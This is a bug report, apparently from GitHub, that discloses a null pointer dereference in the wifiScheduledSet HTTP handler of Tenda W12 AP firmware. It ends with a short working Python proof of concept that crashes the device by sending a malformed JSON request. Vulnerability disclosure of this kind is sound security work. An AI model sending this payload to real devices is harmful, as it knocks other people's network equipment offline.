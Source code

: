 # Bug Report: NPD in Tenda W12 AP
A null pointer dereference vulnerability exists in Tenda W12 firmware V3.0.0.6(3948) within the cgiWifiScheduledSet function. Remote attackers can exploit this flaw by sending malformed HTTP requests to cause a denial of service condition.

## Vulnerability Details

### Product Information
- **Product**: Tenda W12 AP
- **Affected Version**: V3.0.0.6(3948)
- **Download Source**: https://www.tenda.com.cn/material/show/673226879721541
- **Vulnerability Type**: Null pointer dereference

## Description
A null pointer dereference vulnerability exists in the HTTP request handler for `wifiScheduledSet` operations. The handler attempts to extract a `scheduledList` object from user-controlled JSON input without proper validation. When the JSON payload does not contain the expected `scheduledList` field, the resulting null pointer is dereferenced at line 45.

![alt text](image-3.png)
## PoC

![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)
## Reproduce
```python
#!/usr/bin/env python3

from pwn import *
import requests

def send_payload(url, payload, headers):
    print("sending...")
    response = requests.post(
        url,
        json=payload,
        headers=headers,
    )
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = {
    "wifiScheduledSet": {
    }
}

headers = {
    "Host": "10.10.10.1",
    "Content-Type": "application/json",
}

send_payload("http://10.10.10.1/goform/modules", payload, headers)
```

